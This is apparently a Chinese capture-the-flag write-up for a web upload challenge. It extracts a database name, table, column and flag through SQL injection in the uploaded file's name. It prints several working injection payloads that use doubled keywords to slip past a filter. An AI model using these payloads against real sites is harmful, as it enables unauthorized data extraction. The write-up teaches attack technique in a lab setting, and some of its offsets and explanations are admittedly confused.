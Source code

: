 ## 题目描述

![image-20210117193823007](\image-1\image-20210117193823007.png)

首先是一个注册界面，填入邮箱密码注册之后，点击login，然后进入到上图的界面，可以选择一个文件进行上传，但是上传文件的后缀名必须为.jpg文件名后缀。

## 御剑扫描后台

使用御剑进行扫描，发现存在includes文件夹：

![image-20210117195054337](\image-1\image-20210117195054337.png)

好像并没有什么用处……

## 使用burp suite拦截包



![image-20210117201930639](\image-1\image-20210117201930639.png)

![image-20210117202133639](\image-1\image-20210117202133639.png)

网上的write up查了过滤的规则，我没有弄清楚他是怎么查的，根据intruder里面的功能，对指定的payload查询过滤规则，本题要对filename那里的过滤规则进行查询，因为我们的目标是通过这个网站上传文件之后的回显功能，再根据sql注入，通过回显来查询到我们所需要的信息，比如数据库，表名之类的信息。

网上说这个服务器中对filename进行了双写绕过（然后我硬是没有搞明白这一步是怎么弄的，这里还没有搞明白怎么设置过滤）

## sql注入

通过回显功能，我们可以将文件名改成

```mysql
a' +(selselectect conv(substr(hex(database()),1,12),16,10))+ '.jpg
```

![image-20210117220936612](\image-1\image-20210117220936612.png)



本来是`select database()`便可以得到数据库的名称，但是在这道题中，存在两个问题：

1. 首先，超出一定的长度会出现科学计数法：

![image-20210117221520355](\image-1\image-20210117221520355.png)

所以需要对得到的数据库名进行substr操作得到子字符串。

2. 其次，在使用十六进制的时候，会把出现字母（abcdef）的内容给截掉，所以我们要使用conv函数将十六进制的转化成十进制。

最终通过两个payload得到数据库名：

（在这里有个疑问就是为什么要把select打成selselectect呢？）

```mysql
a' +(selselectect conv(substr(hex(database()),1,12),16,10))+ '.jpg
a' +(selselectect conv(substr(hex(database()),12,15),16,10))+ '.jpg
```

得到的回显结果如下图所示：

![image-20210117221737631](\image-1\image-20210117221737631.png)

得到的是十进制的结果，我们要先把这些十进制的结果转化成十六进制，再将十六进制转化成字符串文本内容，得到的就是数据库的名称。

![image-20210117222850309](\image-1\image-20210117222850309.png)

- 7765625f7570

![image-20210117222918722](\image-1\image-20210117222918722.png)

- 6c6f6164

![image-20210117223004406](\image-1\image-20210117223004406.png)

所以数据库的名称为`web_upload`.

接下来依次对表名、列名、字段名进行相同的操作得到flag：

**查询表名**

```mysql
a'+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA = 'web_upload' limit  1,1)),1,12),16,10))+'.jpg

a'+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA = 'web_upload' limit  1,1)),1,12),16,10))+'.jpg

 a'+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA =  'web_upload' limit 1,1)),25,12),16,10))+'.jpg
```

按照上述转换操作得到的结果是：`hello_flag_is_here	`

**查询列名**

```mysql
s'+(seleselectct+CONV(substr(hex((seselectlect COLUMN_NAME frfromom information_schema.COLUMNS where TABLE_NAME = ‘hello_flag_is_here’  limit 0,1)),1,12),16,10))+'.jpg

s'+(seleselectct+CONV(substr(hex((seselectlect COLUMN_NAME frfromom information_schema.COLUMNS where TABLE_NAME = ‘hello_flag_is_here’  limit 0,1)),13,12),16,10))+'.jpg
```

得到的结果是`i_am_flag`

**查询字段内容**

```mysql
s'+(seleselectct+CONV(substr(hex((selselectect i_am_flag frfromom hello_flag_is_here limit 0,1)),1,12),16,10))+'.jpg

s'+(seleselectct+CONV(substr(hex((selselectect i_am_flag frfromom hello_flag_is_here limit 0,1)),13,12),16,10))+'.jpg

s'+(seleselectct+CONV(substr(hex((selselectect i_am_flag frfromom hello_flag_is_here limit 0,1)),25,12),16,10))+'.jpg
```

得到的结果是`!!_@m_Th.e_F!lag`，所以flag就是这个。

